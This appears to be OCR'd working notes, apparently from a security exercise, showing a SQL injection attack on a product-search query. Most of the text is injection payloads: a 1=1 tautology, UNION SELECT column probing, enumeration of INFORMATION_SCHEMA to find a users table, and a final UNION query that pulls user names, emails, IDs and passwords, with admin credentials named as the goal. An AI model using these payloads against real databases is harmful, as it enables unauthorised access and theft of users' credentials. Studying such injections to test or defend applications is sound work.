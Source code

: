 

STRING:                | GET ((A% OR %C%) AND C) ORDER BY cateogory
DESIRED STRING: | GET ((A% UNION SELECT * )) --

Possible String: 
SELECT * FROM bproducts WHERE ((pname like 'STH%' or pname LIKE '%STH%') and bu IS NOT NULL) ORDER BY cateogory

SELECT * FROM bproducts WHERE ((pname like ' ' or  1=1)); -- COMMENT
-- 
Test if secret column 7! 
SELECT * FROM bproducts WHERE ((pname like 'a ')) UNION 
SELECT 1,2,3,4,5,6,7; -- COMMENT

Nope. 
-- 
SELECT * FROM bproducts WHERE ((pname like '')) UNION 
SELECT COLUMN_NAME,TABLE_NAME, 3, 4, 5, 6
FROM INFORMATION_SCHEMA.COLUMNS; -- COMMENT 

From ^ found that there is a table bproducts, users
Users: {id, fname, lname, type, userid, email, mobile, city, state, postcode, password}
-- 
!!!
GETTING USER DATA -> admin password 
SELECT * FROM bproducts WHERE ((pname like '')) UNION 
SELECT fname, lname, type, email, userid, password
FROM users; -- COMMENT 
-- 
SELECT * FROM bproducts WHERE ((pname like '')) ORDER by pname; -- COMMENT
 